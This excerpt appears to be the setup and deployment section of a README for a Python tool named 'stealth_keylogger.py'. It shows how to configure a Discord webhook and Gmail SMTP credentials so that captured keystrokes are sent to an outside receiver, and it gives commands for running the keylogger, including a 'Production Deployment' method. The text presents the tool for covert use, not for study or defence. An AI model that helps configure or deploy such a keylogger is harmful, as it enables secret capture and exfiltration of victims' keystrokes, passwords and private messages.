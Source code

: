 #### Step 3: Update Configuration
Edit `stealth_keylogger.py` and update:
```python
self.webhook_url = "YOUR_DISCORD_WEBHOOK_URL_HERE"
```
Replace with your actual webhook URL.

### Email Configuration (Optional)

#### Gmail Setup
1. Enable 2-factor authentication
2. Generate App Password
3. Update configuration in `stealth_keylogger.py`:
```python
self.email_config = {
    'smtp_server': 'smtp.gmail.com',
    'smtp_port': 587,
    'sender_email': 'your_email@gmail.com',
    'sender_password': 'your_app_password',
    'receiver_email': 'target@domain.com'
}
```

## Deployment

### Local Testing
```bash
# Quick test
python run_keylogger.py

# Direct execution
python stealth_keylogger.py

# Programmatic usage
python -c "
from stealth_keylogger import StealthKeylogger
kl = StealthKeylogger()
kl.start()
import time
time.sleep(10)
kl.stop()
print('Test completed')
"
```

### Production Deployment

#### Method 1: Direct Execution
```bash
python stealth_keylogger.py
```
